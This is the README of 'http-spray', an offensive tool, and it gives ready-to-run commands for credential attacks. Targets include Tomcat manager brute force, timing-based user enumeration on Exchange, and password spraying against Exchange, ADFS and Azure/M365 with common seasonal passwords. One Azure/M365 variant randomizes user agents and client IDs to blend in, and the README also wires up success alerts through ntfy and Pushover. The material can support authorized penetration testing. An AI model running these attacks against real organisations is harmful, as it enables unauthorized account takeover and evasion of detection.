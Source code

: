 # http-spray

## Setup

Install with [pipx](https://github.com/pypa/pipx/).

~~~ bash
pipx install git+https://github.com/dadevel/http-spray.git
~~~

## Usage

Basic example: Brute force Tomcat manager login.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -c ./tomcat-credentials.txt | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

Get notifications on success trough [ntfy.sh](https://ntfy.sh).
The notifications contain no personal data.

~~~ bash
http-spray -t https://app.corp.com/admin -m basic -u ./default-usernames.txt -p 'changeme' --notify https://ntfy.sh/$(uuidgen -r)
~~~

### Exchange

Time-based user enumeration against on-prem Exchange server.
Requests for valid users take about 0.1s, invalid users take more than 1.5s.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m basic -u ./users.txt -p '' | tee -a ./http-spray.json | jq -c 'select(.time < 0.5)'
~~~

> **Note:**
>
> The user enumeration requires basic authentication and seems to work only with the user formats `corp\jdoe` and `corp.com\jdoe` where `jdoe` is the *samaccountname*.

Password spraying against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm ./users.txt -p 'Summer2023#' | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
>
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

### ADFS

Password spraying against ADFS trough NTLM authentication.

~~~ bash
http-spray -t https://sts.corp.com/adfs/services/trust/2005/windowstransport -m ntlm -u ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json
~~~

Password spraying against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -u ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json | jq -c 'select(.status_code == 200)'
~~~

> **Note:**
>
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.

### Microsoft Cloud

Password spraying against Azure/M365 trough OAuth2 password grant.

~~~ bash
http-spray -t https://login.windows.net/corp.com/oauth2/token -m msauth --client-id 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --resource https://graph.windows.net -u ./users.txt -p 'Summer@2024' | tee -a ./http-spray.json
~~~

Password spraying against Azure/M365 with full request randomization.

~~~ bash
http-spray -t https://login.microsoftonline.com/corp.com/oauth2/token -m msauth --user-agents ./wordlists/desktop-user-agents.csv --client-id ./wordlists/m365-public-clients.csv --resource ./wordlists/m365-resources.csv -u ./users.txt -p ./passwords.txt | tee -a ./http-spray.json
~~~

> **Note:**
>
> The username must be specified as email address, e.g. `john.doe@corp.com`.

### Push Notifications

Integration for [pushover.net](https://pushover.net/).

~~~ bash
tail -f ./http-spray.json | jq -c 'select(.status!="invalid" and .status!="exists")|del(.user, .password)' | while read -r line; do
    curl -sSf https://api.pushover.net/1/messages.json -d user=$PUSHOVER_USER -d token=$PUSHOVER_TOKEN --data-urlencode title='Password Spraying' --data-urlencode message="$line"
done
~~~
